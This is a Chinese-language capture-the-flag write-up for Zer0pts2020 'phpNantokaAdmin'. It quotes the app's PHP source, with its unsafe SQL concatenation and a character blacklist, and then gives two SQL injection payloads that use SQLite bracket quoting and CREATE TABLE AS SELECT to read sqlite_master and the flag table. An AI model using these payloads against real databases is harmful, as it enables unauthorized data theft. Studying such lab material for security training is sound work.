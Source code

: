 # \[Zer0pts2020]phpNantokaAdmin

## \[Zer0pts2020]phpNantokaAdmin

## 考点

* sqlite3 select特性
* sqlite3建表语法

## wp

题目功能流程如下

![](<../.gitbook/assets/image (30).png>)

填参数，点下一步，最后的请求是向/?page=create发送 POST请求，请求内容如下

```
table_name=test&columns[0][name]=testa&columns[0][type]=INTEGER
```

然后请求/?page=index，来到插入数据的页面

![](<../.gitbook/assets/image (4).png>)

向/?page=insert发送POST请求，内容如下

```
values[]=1&values[]=2&values[]=3
```

然后请求/?page=index

![](<../.gitbook/assets/image (33) (1) (1).png>)

那么后台的语句可能如下

```sql
CREATE TABLE test(
   dummy1 TEXT,
   dummy2 TEXT,
   testa INTEGER,
);

INSERT INTO test (dummy1,dummy2,testa) 
          VALUES ('1', '2', 3);
```

但是`testa`那个字段输入字母也会成功插入

![](<../.gitbook/assets/image (1).png>)

然后找信息，啥都没找到，直接用BUU给的代码吧

三个文件，config.php定义flag位置，`flag_bf1811da`表的`flag_2a2d04c3`字段

util.php存放自定义函数，index.php实现路由和视图功能

先说自定义的函数，`redirect($path)`调用header函数进行重定向页面，`flash($message, $path = '?page=index')`向session中写入信息，`e($string)`把string使用`htmlspecialchars($string, ENT_QUOTES)`进行转义，只编码双引号和单引号，`is_valid($string)`判断输入是否含有如下字符

```
["#'()*,\/\\`-]
```

然后index.php，全部采用pdo的方式操作数据库

如果session中存在database字段，就返回`flag_bf1811da`表和`flag_2a2d04c3`字段

insert部分就直接使用insert语句插入POST的values数组，delete是直接清空session，新建一个空白的session

看新建表的地方

要输入表名和列名，只有表名被强制转换为字符串，然后是对表名和列名的限制

```php
  $table_name = (string) $_POST['table_name'];
  $columns = $_POST['columns'];
  $filename = bin2hex(random_bytes(16)) . '.db';
  $pdo = new PDO('sqlite:db/' . $filename);
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }
```

最后是SQL语句的拼接

```php
  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

最终SQL执行顺序

```
CREATE TABLE `FLAG_TABLE` (`FLAG_COLUMN` TEXT);
INSERT INTO `FLAG_TABLE` VALUES ("FLAG");
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT, `$column` $type);
```

可控点就是table\_name、column和type

payload

```
table_name=aaaa+as+select+[sql][&columns%5B0%5D%5Bname%5D=]from+sqlite_master;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [sql] from sqlite_master;`

![](<../.gitbook/assets/image (24).png>)

payload

```
table_name=aaaa+as+select+[flag_2a2d04c3][&columns%5B0%5D%5Bname%5D=]from+flag_bf1811da;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [flag_2a2d04c3] from flag_bf1811da;`

![](<../.gitbook/assets/image (11) (1).png>)



## 小结

1. sqlite3在select时，如果列使用`[]`、`""`、` `` `包裹时会自动忽略这些符号之后的列名
2. sqlite3可以使用`create table ... as select ... from ...` 来复制表
